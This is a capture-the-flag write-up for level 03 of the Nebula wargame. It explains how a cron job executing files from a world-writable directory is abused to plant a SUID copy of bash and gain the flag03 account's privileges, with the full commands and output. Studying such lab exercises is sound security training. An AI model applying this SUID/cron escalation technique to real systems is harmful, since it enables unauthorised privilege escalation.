 # Level 03
Check the home directory of **flag03** and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the **level03** account with the password level03. Files for this level can be found in **/home/flag03**.

## Source Code
There is no source code available for this level.

## Writeup
In /home/flag03 there is a bash script and a directory:

```bash
level03@nebula:/home/flag03$ ll
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 ./
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ../
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d/
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh*
```

We can read the script:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script for every file in the directory **/home/flag03/writable.d** execute the command:

```bash
ulimit -t 5; bash -x "$i"
```

The **ulimit** command is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

With the **-t** arguments we can specifies a process' maximum running time, in seconds.

After this command that is to able the other player to play with the machine without interfere with earch others.

The next command is **bash -x "$i"** that execute every files in the directory.

Finally, the script clear the directory with:

```bash
rm -f "$i"
```

We know that there is a cron job that is called every couple of minutes that invoke that script.

So we can create a script that copy the **/bin/bash** binary in the **flag03** directory and add the **SUID** bit to it. The result is a bash binary with the permission of **flag03** account.

Write this script into a file **script.sh** in **/home/flag03/writable.d** directory:

```bash
#!/bin/bash

cp /bin/bash /home/flag03/bash
chmod u+s /home/flag03/bash
```

Now attend that the cron job execute the script.

We can examite that with **watch** command:

```bash
watch -n 1 ls -l /home/flag03/
```

Now we have a **bash** binary with **SUID**:

```bash
level03@nebula:/home/flag03$ ll
total 910
drwxr-x--- 1 flag03 level03     80 2023-03-14 04:45 ./
drwxr-xr-x 1 root   root        80 2012-08-27 07:18 ../
-rwsr-xr-x 1 flag03 flag03  916692 2023-03-14 04:45 bash*
-rw-r--r-- 1 flag03 flag03     220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03    3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03     675 2011-05-18 02:54 .profile
drwxrwxrwx 1 flag03 flag03      40 2023-03-14 04:45 writable.d/
-rwxr-xr-x 1 flag03 flag03      98 2011-11-20 21:22 writable.sh*
```

Just launch **/home/flag03/bash** with **-p** argument prevent bash to drop execute privileges:

```bash
/home/flag03/bash -p
```

We have now a bash with **flag03** account:

```bash
level03@nebula:/home/flag03$ /home/flag03/bash -p
bash-4.2$ id
uid=1004(level03) gid=1004(level03) euid=996(flag03) groups=996(flag03),1004(level03)
```

Finally, run **getflag** command:

```bash
bash-4.2$ getflag
You have successfully executed getflag on a target account
```